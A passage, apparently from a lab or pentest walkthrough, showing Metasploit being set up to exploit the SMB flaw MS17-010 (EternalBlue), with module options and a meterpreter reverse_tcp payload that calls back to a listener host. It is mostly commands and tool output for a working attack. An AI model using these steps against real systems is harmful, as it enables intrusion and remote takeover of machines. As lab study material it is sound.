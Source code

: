 Clean :

```bash
rm -rf ./venv ./ms08_067_2018.py
```

### SMB - ms17-010 (CVE-2017-0143) - MetaSploit

We will use MetaSploit :

```bash
msfconsole -q
```

```text
[msf](Jobs:0 Agents:0) >> search ms17-010
[msf](Jobs:0 Agents:0) >> use exploit/windows/smb/ms17_010_psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting        Required  Description
   ----                  ---------------        --------  -----------
   DBGTRACE              false                  yes       Show extra debug trace info
   LEAKATTEMPTS          99                     yes       How many times to try to leak tran
                                                          saction
   NAMEDPIPE                                    no        A named pipe that can be connected
                                                           to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit  yes       List of named pipes to check
                         -framework/data/wordl
                         ists/named_pipes.txt
   RHOSTS                                       yes       The target host(s), see https://gi
                                                          thub.com/rapid7/metasploit-framewo
                                                          rk/wiki/Using-Metasploit
   RPORT                 445                    yes       The Target port (TCP)
   SERVICE_DESCRIPTION                          no        Service description to to be used
                                                          on target for pretty listing
   SERVICE_DISPLAY_NAME                         no        The service display name
   SERVICE_NAME                                 no        The service name
   SHARE                 ADMIN$                 yes       The share to connect to, can be an
                                                           admin share (ADMIN$,C$,...) or a
                                                          normal read/write folder share
   SMBDomain             .                      no        The Windows domain to use for auth
                                                          entication
   SMBPass                                      no        The password for the specified use
                                                          rname
   SMBUser                                      no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process,
                                        none)
   LHOST     192.168.8.28     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
